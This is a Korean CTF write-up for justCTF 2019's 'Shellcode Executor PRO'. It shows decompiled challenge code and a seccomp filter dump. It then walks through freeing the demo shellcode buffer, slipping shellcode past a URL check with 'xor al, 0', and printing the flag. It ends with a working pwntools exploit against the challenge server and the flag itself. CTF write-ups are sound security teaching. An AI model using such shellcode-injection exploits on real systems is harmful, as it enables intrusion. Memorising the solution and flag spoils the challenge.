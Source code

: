```yaml
---
title: "2019 just CTF Shellcode Executor PRO"
date: 2020-1-15
ctf: Just CTF
layout: post
published : false
---
```




1번 메뉴

입력받은 걸 `verifyUrl` 함수에서 xor 1한 값이 9보다 작아야한다. 안 그러면 exit해준다.

```c
int downloadShellcode()
{
  char *s; // ST18_8

  s = malloc(0x400uLL);
  printf("Enter url: ");
  fgets(s, 1024, stdin);
  if ( verifyUrl(s) ^ 1 )
  {
    puts("Your url contains incorrect characters, this incident will be reported");
    exit(-1);
  }
  return puts("For this feature you need to purchase the full version of our product");
}
```

2번 메뉴

`demo_shellcode` 라는 영역을 free해줄 수 있다.

```c
void __fastcall deleteShellcode(__int64 a1)
{
  if ( *a1 )
  {
    puts("This shellcode has already been deleted");
  }
  else
  {
    *a1 = 1;
    free(*(a1 + 8));
    free(*(a1 + 16));
  }
}
```

3번 메뉴

쉘코드를 `restrictAccess` 함수 bypass하면 실행해준다.

```c
int __fastcall executeShellcode(__int64 a1)
{
  void *dest; // [rsp+18h] [rbp-8h]

  printf("Executing shellcode from %s\n", *(a1 + 8));
  dest = mmap(0LL, 0x400uLL, 7, 34, -1, 0LL);
  memcpy(dest, *(a1 + 16), 0x400uLL);
  if ( restricted != 1 )
    restrictAccess();
  puts("====================================");
  (dest)("====================================");
  puts("====================================");
  return munmap(dest, 0x400uLL);
}
```

`restrictAccess` 함수를 보면 seccomp가 걸려있는데 read, write, mmap, munmap .. 등등만 허용해놨다.

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x00000000  if (A == read) goto 0012
 0006: 0x15 0x05 0x00 0x00000001  if (A == write) goto 0012
 0007: 0x15 0x04 0x00 0x00000009  if (A == mmap) goto 0012
 0008: 0x15 0x03 0x00 0x0000000b  if (A == munmap) goto 0012
 0009: 0x15 0x02 0x00 0x0000000f  if (A == rt_sigreturn) goto 0012
 0010: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0012
 0011: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

`demo_shellcode` 라는 영역을 3번 메뉴에서 실행시켜주기 때문에 이곳에 쉘코드를 넣어주면 된다. 근데 밑에 `The flag will be here` 이라는 문구가 있다. 여기에 플래그가 있어서 읽어오면 될거다. 

![](https://user-images.githubusercontent.com/32904385/72424712-c3229880-37c9-11ea-9ce9-5d58e2ef305a.png)

익스는 write로 flag 영역을 긁어오면 된다. 근데 우선 `verifyUrl` 함수를 우회해줘야하는데 `\x00` 을 넣어서 우회하려고 했는데 쉘코드가 실행이 안된다.그래서 `xor al,0 ` 으로 우회해주면 된다.

익스 순서는 `demo_shellcode` 영역을 free해주고 `downloadShellcode` 함수에서 `write(1,rip+0x70,0xff)` 해준 후에 입력해주면 된다. `rip+0x70`은 flag위치다. 

마지막으로 `executeShellcode` 함수 실행해주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./shellcodeexecutor')
#p = process('./shellcodeexecutor')
p = remote('46.101.173.184', 1446)

payload = '''
xor al, 0
mov rdi, 1
lea rsi, [rip+0x70]
mov rdx, 0xff
mov rax, 1
syscall
'''

p.sendlineafter('>','2') # Delete shellcode -> Demo Free
p.sendlineafter('>','1') # Download shellcode from url -> allocate
p.sendlineafter(':',asm(payload)) # verifyUrl bypass
p.sendlineafter('>','3') # executeShellcode -> seccomp bypass

p.interactive()
```

**FLAG : `justCTF{f0r_4_b3tt3r_fl4g_purch4s3_th3_full_v3rsi0n_0f_0ur_pr0duct}`**